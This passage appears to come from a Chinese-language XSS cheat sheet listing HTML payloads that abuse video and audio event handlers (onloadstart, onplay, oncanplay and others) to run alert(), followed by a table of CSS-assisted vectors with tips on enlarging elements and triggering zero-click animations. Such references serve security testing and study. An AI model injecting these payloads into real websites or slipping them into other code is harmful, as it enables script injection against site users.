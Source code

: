 
Examples:

```html
<video autoplay onloadstart="alert()" src=x></video>
```

```html
<video autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
```

```html
<video controls onloadeddata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
```

```html
<video controls onloadedmetadata="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
```

```html
<video controls onloadstart="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
```

```html
<video controls onloadstart="alert()"><source src=x></video>
```

```html
<video controls oncanplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></video>
```

```html
<audio autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>
```

```html
<audio autoplay controls onplaying="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>
```

### CSS-based
- CSS 的真正的 XSS injection 目前是死的（沒太多可以發揮的）

以下是依賴 CSS stylesheets 或通過 CSS stylesheets 加強的 XSS vectors:

| Name | Tags | Note |
| :---| :--- | :--- |
| onmouseover | most tags | 當 mouse 移到 injected element 上時將觸發。盡可能 style element，讓 element 變大，這樣更容易觸發到 |
| onclick | most tags | User 點擊 element 時觸發。盡可能 style element，讓 element 變大，這樣更容易觸發到 |
| onanimationstart & onanimationend | most tags | 在 CSS 動畫開始或結束時觸發，可以在頁面 load 時觸發 (`0-click`) |


注意：下面使用 style tag 來設置動畫的 `keyframes` (start|end)
- 但也可以通過使用例如 `animation: alreadydefined;` 來檢查已經包含的 CSS 來重用已經存在的東西
- 動畫是什麼並不重要，重要的是它的存在。
